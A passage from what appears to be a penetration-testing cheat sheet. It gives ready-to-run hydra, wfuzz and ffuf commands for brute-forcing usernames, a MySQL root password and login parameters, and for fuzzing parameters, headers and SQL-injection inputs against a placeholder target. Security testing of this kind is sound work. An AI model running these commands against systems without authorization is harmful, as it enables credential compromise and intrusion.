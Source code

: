     # Username enumeration before brute-force
    ./userenum.py -U /usr/share/wordlists/usernames.txt target.com

    # Database brute-force (MySQL)
    hydra -l root -P /usr/share/wordlists/common-passwords.txt mysql://target.com:3306
    ```
*   **Why It's Useful:** Many systems still use default or weak credentials. Brute-force attacks can reveal authentication bypasses, especially when combined with discovered usernames from reconnaissance phases.
*   **WARNING:** Brute-force attacks are very noisy and may trigger account lockouts or IP bans. Always use appropriate delays and respect rate limits during authorized testing.

#### 14. PARAMETER VALUE BRUTE-FORCE & FUZZING

*   **Technique Type:** Active Parameter Testing
*   **Description:** Test discovered parameters with various values to find hidden functionality, injection vulnerabilities, and logic bypasses.
*   **Tools:** wfuzz, ffuf, burp intruder, parameth
*   **The Commands:**
    ```bash
    # Basic parameter fuzzing with wfuzz
    wfuzz -c -z file,/usr/share/wordlists/common-params.txt --hc 404 "https://target.com/page.php?FUZZ=test"

    # Parameter value fuzzing for discovered parameters
    wfuzz -c -z file,/usr/share/wordlists/Fuzzing/special-chars.txt "https://target.com/api/loader.php?f=FUZZ"

    # Multiple parameter fuzzing
    wfuzz -c -z file,userlist.txt -z file,passlist.txt --hc 404 "https://target.com/login.php?user=FUZZ&pass=FUZ2Z"

    # Using ffuf for parameter discovery and fuzzing
    ffuf -w /usr/share/wordlists/common-params.txt -u "https://target.com/page.php?FUZZ=test" -fc 404

    # POST parameter fuzzing
    wfuzz -c -z file,payloads.txt -d "param=FUZZ" "https://target.com/api/endpoint"

    # Header fuzzing
    wfuzz -c -z file,headers.txt -H "FUZZ: test" "https://target.com/"
    ```
*   **Specialized Parameter Testing:**
    ```bash
    # SQL injection parameter testing
    wfuzz -c -z file,/usr/share/wordlists/Fuzzing/SQLi.txt "https://target.com/search.php?q=FUZZ"
